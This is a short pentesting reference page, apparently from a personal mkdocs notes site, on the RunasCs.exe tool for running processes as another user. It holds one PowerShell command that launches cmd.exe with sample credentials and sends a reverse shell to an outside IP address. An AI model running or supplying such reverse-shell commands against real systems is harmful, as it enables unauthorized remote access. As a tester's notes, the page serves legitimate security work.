

repository: amandaguglieri/hackinglife · page: runascs/index.html · generator: mkdocs




# RunasCs.exe


### Remote connections
RunasCs.exe from: https://github.com/antonioCoco/RunasCs/releases. Forked in the tester repo: https://github.com/amandaguglieri/RunasCs

```powershell

# Initiates a remote shell as that user
.\RunasCs.exe lala Lalala123 cmd.exe -r 192.168.45.211:443
```
